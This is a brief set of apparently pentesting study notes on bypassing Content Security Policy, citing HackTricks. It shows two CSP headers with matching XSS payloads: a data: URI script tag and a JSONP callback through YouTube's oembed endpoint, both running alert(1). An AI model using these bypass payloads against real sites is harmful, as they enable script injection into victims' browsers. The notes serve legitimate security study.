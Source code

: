 ___

Content Security Policy
https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
# Data

```
content-security-policy
	script-src 'self' https://app.hackinghub.io data:
```

```html
<script src=data:text/javascript,alert(1)></script>
```

# 3rd Party Domains JSONP

```
content-security-policy
	script-src 'self' https://app.hackinghub.io https://www.google.com https://www.youtube.com
```


```html
<script/src=https://www.youtube.com/oembed?url=https://www.youtube.com/watch?v=oOfgVmxBk6U&callback=alert(1)></script>
```

